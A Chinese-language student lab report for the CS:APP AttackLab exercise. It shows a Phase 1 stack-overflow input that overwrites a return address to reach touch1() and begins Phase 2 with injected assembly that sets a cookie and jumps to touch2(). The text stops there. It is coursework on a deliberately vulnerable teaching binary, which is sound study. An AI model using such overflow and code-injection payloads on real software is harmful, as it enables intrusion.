 # AttackLab 实验报告

## 10235501419 李佳亮	2024/11/7

## 一、所用文件 

- ctarget反汇编得到的ctarget.asm
- rtarget反汇编得到的rtarget.asm
- hex2raw
- cookie.txt
- 实验文档



## 二、实验过程

### 1. Phase 1：Stack Smashing Attack

阅读实验文档4.1，Phase 1是要在ctarget中`test()`函数调用`getbuf()`结束后跳转到`touch1()`函数而不是返回到`test()`。

阅读ctarget.asm，发现`getbuf()`的栈帧为`40`字节，会从文件输入流读取字符串放到栈顶，从低地址到高地址依次放置每个字节。

本部分，把`返回地址`覆写为`touch1()`的地址即可。

输入字符串如下：

```plaintext
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00	/* pad */
c0 17 40 00 00 00 00 00 /* 返回后 跳转到touch1() */
```

将其保存为`phase1.txt`，用`hex2raw`将其编码为字符串形式的文件`phase1_raw.txt`，再将其作为命令行参数作为输入。成功的结果截图如下：

![phase1](D:\学习\2024-2025 第1学期\计算机系统 赵明昊,钱卫宁\Lab\3.attacklab\imgs\phase1.jpg)



### 2. Phase 2：Code Injection Attack

阅读实验文档4.2，Phase 2是要在ctarget中`test()`函数调用`getbuf()`结束后，要把`%rdi`寄存器中的值设置为`cookie`的值后跳转到`touch2(unsigned val)`函数。这就需要往运行时栈中注入可执行代码的字节编码，实现“把`%rdi`寄存器中的值设置为`cookie`的值，然后跳转到`touch2()`”这一操作。

查看`cookie.txt`，得到其值为`0x59b997fa`。

exploit code的具体的汇编代码为：

```assembly
# 易犯错！立即数不要忘记加'$'
movl     $0x59b997fa, %edi	# 把cookie存进%rdi寄存器中
pushq    $0x4017ec			# 把函数touch2()的地址压栈
ret							# 返回，即跳转到touch2()
```
